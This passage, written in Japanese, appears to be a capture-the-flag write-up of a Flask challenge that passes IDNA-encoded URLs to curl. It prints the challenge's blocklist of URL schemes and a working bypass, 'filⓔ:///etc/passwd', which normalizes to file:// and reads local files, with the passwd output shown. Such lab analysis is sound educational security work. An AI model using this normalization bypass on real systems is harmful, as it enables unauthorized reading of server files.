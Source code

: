 ```python
        return "[error]: curl"
    return proc.stdout
```
内部では、 `encode("idna").decode()` したURL (0x3fの制限あり) を `subprocess.run` で `curl` にそのまま渡している。
配布ファイル `flag` があることや、問題名からもゴールはLFIだと考えられる。
配布ファイル `Dockerfile` から `/var/www/flag` にフラグが書かれていることがわかる。
Scheme Detector、Multibyte Characters Sanitizer、WAFの三種類のチェックがあるのでこれらをバイパスしてフラグを読みだせばよい。

### Scheme Detectorの突破
ローカルのファイルを `curl` にて読み取るにあたり、スキーム `file://` が利用できる。
ただし、入力されたURLのスキームを検証しているScheme Detectorを突破しなければならない。
Scheme Detectorは以下のとおりである。
```python
# Scheme Detector
def scheme_detector(url :str) -> bool:
    bad_schemes = ["dict", "file", "ftp", "gopher", "imap", "ldap", "mqtt",
                   "pop3", "rtmp", "rtsp", "scp", "smbs", "smtp", "telnet", "ws"]
    url = url.lower()
    for s in bad_schemes:
        if s in url:
            return True
    return False
```
`url.lower()` により大文字 (ex. `File://` ) による突破は難しそうだ。
さらに、 `curl` の対応スキーム全てをチェックしており、比較の不備もなさそうに見える。
ここで、処理の流れとして、Scheme Detectorの後の `curl` に渡されるタイミングで、 `encode("idna").decode()` が行われることに気付く。
つまり、Scheme Detectorを通り抜け、 `encode("idna").decode()` によって `file://` に変化する文字を使用すればよい。
サイト内の例にある `ⓔxample.com` からも分かるように `ⓔ` などは `e` に変換される。
この仕組みを使うことで、以下のようにScheme Detectorを突破することが可能となる。
```bash
$ curl 'http://localhost:31415?url=file:///var/www/flag'
Hi, Scheme man !!!!
$ curl 'http://localhost:31415?url=filⓔ:///var/www/flag'
Hi, Hacker !!!!
$ curl 'http://localhost:31415?url=filⓔ:///etc/passwd'
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
~ 略 ~
```
無事に内部のファイルは読み取れたようだが、 `/var/www/flag` はWAFにブロックされている。

### WAFの調査
WAFは単純な構成で、以下のとおりである。
```python
# WAF
@app.after_request
def waf(response: Response):
    if b"RicSec" in b"".join(response.response):
        return Response("Hi, Hacker !!!!")
    return response
```
`curl` にて読み取った内容に文字列 `RicSec` が含まれている場合にブロックされているようだ。
実装に不自然な箇所はないので、文字列を変更するなど正攻法でWAFを突破する必要があるとわかる。
